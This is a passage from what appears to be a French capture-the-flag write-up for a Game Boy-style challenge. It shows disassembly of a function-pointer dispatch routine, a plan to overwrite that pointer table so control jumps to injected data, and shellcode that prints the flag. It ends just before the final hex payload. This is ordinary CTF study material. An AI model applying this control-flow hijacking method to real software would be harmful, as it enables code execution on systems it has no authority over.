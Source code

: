```nasm
; Z80 Instruction set
; Load de l'id de l'instruction dans HL
ram:0e4f 6e              LD         L,(HL)
ram:0e50 26  00          LD         H,0x0
ram:0e52 29              ADD        HL,HL
; Load de l'adresse de base de inst_func dans DE
ram:0e53 11  b1  c0      LD         DE,0xc0b1   
; Calcul de l'adresse du pointeur à récupérer avec l'id de l'instruction
ram:0e56 19              ADD        HL,DE
; Load du pointeur de fonction dans HL
ram:0e57 2a              LDI        A,(HL)  
ram:0e58 66              LD         H, (HL)
ram:0e59 6f              LD         L, A
ram:0e5a c5              PUSH       BC
; CALL inst_func --> JMP (HL)
ram:0e5b cd  9a  13      CALL       inst_func                                   
```

Sachant que nous pouvons écrire dans `inst_ids[]` la valeur de l'id que l'on veut, il ne reste plus qu'à l'exploiter !

### Payload

L'idée générale est : 

- Ecrire à partir de l'adresse `0xC0B9` (`inst_rpt[0]`) un pointeur de fonction qui pointe vers `0xC0BB` (`inst_rpt[2]`), car `inst_rpt` est un tableau de `uint_8`.
- Ecrire notre shellcode pour afficher le flag à partir de l'adresse `0xC0BB`.
- Ecrire la valeur `4` dans `inst_ids[0]` permettant de produire le comportement décris ci-dessus
- Notre payload doit avoir une taille inférieur à 32 octets.

Le shellcode permettant d'afficher le flag est le suivant : 

```nasm
; Push de l'adresse de flag
11 FA 06 : LD DE, 0x06FA
d5       : PUSH DE
; Push des coordonnées
21 04 12 : LD HL, 0x1204
e5       : PUSH HL
; Push de count
3e 01    : LD A, 0x1
f5       : PUSH AF
33       : INC SP
; Call de bnprintf (0xC010)
cd c0 10 : CALL bnprintf
E8 05    : ADD SP+5
; Call de delay(2000)
11 d0 F7 : LD DE, 0x7d0
cd 9b 13 : CALL delay
```

Enfin, le payload en hexadécimale est le suivant :
